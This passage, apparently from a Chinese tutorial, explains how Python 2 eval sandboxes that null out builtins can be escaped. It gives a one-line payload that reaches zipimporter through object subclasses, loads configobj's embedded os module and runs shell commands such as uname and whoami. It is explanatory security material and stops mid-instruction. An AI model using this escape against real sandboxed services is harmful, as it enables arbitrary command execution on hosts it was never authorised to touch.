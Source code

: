 我们也可以自定义内置函数，并像使用Python中的内置函数一样使用它们：

```
>>> def hello():
...     print 'shabi'
>>> __builtin__.__dict__['say_hello'] = hello
>>> say_hello()
shabi

```

小明将eval函数的作用域中的内置模块设置为`None`，好像看起来很彻底了，但依然可以被绕过。`__builtins__`是`__builtin__`的一个引用，在`__main__`模块下，两者是等价的：

```
>>> id(__builtins__)
3549136
>>> id(__builtin__)
3549136

```

根据[乌云drops](http://drops.wooyun.org/web/7490)提到的方法，使用如下代码即可：

```
[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == "zipimporter"][0]("/home/liaoxinxi/eval_test/configobj-4.4.0-py2.5.egg").load_module("configobj").os.system("uname")

```

上面的代码首先利用`__class__`和`__subclasses__`动态加载了`object`对象，这是因为eval中无法直接使用object。然后使用object的子类的zipimporter对egg压缩文件中的configobj模块进行导入，并调用其内置模块中的os模块从而实现命令执行，当然，前提是要有configobj的egg文件。 configobj模块很有意思，居然内置了os模块：

```
>>> "os" in configobj.__dict__
True
>>> import urllib
>>> "os" in urllib.__dict__
True
>>> import urllib2
>>> "os" in urllib2.__dict__
True
>>> configobj.os.system("whoami")
win-20140812chj\administrator
0

```

和configobj类似的模块如`urllib`，`urllib2`，`setuptools`等都有os的内置，理论上使用哪个都行。 如果无法下载egg压缩文件，可以下载带有setup.py的文件夹，加入：

```
from setuptools import setup, find_packages  

```

然后执行:
